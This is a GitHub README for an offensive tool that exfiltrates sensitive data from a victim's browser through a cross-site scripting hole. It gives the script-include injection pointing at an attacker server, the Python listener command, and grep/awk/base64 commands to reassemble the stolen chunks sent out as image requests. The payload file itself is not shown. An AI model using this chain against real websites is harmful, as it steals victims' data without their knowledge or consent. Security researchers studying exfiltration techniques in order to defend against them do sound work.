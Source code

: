 # XSS-Data-Exfil
Sample code for exfiltrating data through an XSS vulnerability. XSS Payload retrieves sensitive data in victim's browser, then breaks it into chunks. Sends those chunks out as image requests (data in image filename). Example commands and python script to put the original data back together. 

Will link to blog post once it's posted. 

Basically you tailor the exfilPayload.js file to grab the sensitive data your victim has access to. 

Then in you pull that JavaScript file into the browswer by doing a script include in the XSS vulnerability:
<script src="http://127.0.0.1/exfilPayload.js"></script>

Start up a python HTTP server in the directory whwere exfilPayload.js is:
python -m SimpleHTTPServer 80

The exfilePayload.js will send to that same server the chunks of the data being exfiltrated. 

Copy those requests into a text file, clean it up with:
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt

Then use the python script in this repo.

Then you can put the chunks back together finally with:
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

The blog post should make it clearer. 

@hoodoer
